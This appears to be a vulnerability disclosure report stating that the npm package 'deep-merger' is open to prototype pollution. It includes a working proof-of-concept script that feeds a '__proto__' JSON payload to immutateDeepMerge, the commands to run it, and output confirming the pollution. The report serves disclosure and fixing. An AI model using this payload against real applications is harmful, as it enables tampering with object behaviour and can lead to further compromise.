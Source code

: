 # Description

`deep-merger` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var deepMerger = require("deep-merger")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
deepMerger.immutateDeepMerge(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i deep-merger # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
